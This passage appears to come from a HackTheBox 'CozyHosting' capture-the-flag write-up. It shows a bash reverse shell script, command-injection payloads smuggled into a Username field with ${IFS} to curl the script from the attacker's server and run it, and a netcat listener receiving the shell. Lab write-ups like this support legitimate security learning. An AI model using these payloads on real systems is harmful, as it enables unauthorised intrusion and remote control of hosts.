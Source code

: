 It works!

##### Reverse shell using Command Injection

Let's prepare reverse shell payload.
It's way easier than put the command line directly to the command injection vector.

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ cat rshell.sh          
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.2/9000 0>&1
```

Then, let's upload the payload. (Needs to setup a web server first)

```
Hostname : 127.0.0.1
Username : bokchee;curl${IFS}http://10.10.14.2:8000/rshell.sh${IFS}-o${IFS}/tmp/rshell.sh;#
```

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.230 - - [07/Apr/2025 19:02:11] "GET /rshell.sh HTTP/1.1" 200 -
```

Then, let's run the payload. (Open a listener first)

```
Hostname : 127.0.0.1
Username : bokchee;bash${IFS}/tmp/rshell.sh;#
```

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.230] 59430
bash: cannot set terminal process group (1060): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ 
```

I got `app`'s shell!



# Shell as `josh`

### Enumeration

On the obtained shell's home directory, there's a jar file.

```bash
app@cozyhosting:/app$ ls  
ls
cloudhosting-0.0.1.jar
```
